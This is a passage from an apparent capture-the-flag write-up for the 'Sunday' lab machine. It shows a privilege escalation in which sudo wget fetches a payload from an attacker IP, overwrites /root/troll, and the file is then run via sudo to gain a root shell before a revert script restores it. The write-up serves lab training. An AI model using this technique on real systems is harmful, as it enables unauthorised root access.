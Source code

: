 ```
sammy@sunday:~$ sudo wget 10.10.14.36/troll -O /root/troll
--23:05:56--  http://10.10.14.36/troll
           => `/root/troll'
Connecting to 10.10.14.36:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 23 [application/octet-stream]

100%[================================================================================================================================================================================================>] 23            --.--K/s             

23:05:57 (4.41 MB/s) - `/root/troll' saved [23/23]
```

Now quickly as the `sunny` user run `sudo /root/troll` right after you just overwrote the file and you should get root.

```
sunny@sunday:~$ sudo /root/troll
root@sunday:~# whoami && id
root
uid=0(root) gid=0(root) groups=0(root),1(other),2(bin),3(sys),4(adm),5(uucp),6(mail),7(tty),8(lp),9(nuucp),12(daemon)
```

Make sure you run it ASAP after you overwrite it because there is a script that the creator implemented to ensure that the `troll` file reverts back to its original form. If you overwrite it and then run `sudo /root/troll` as the `sunny` user too late, you most likely won't get the shell because the file went back to its original form.
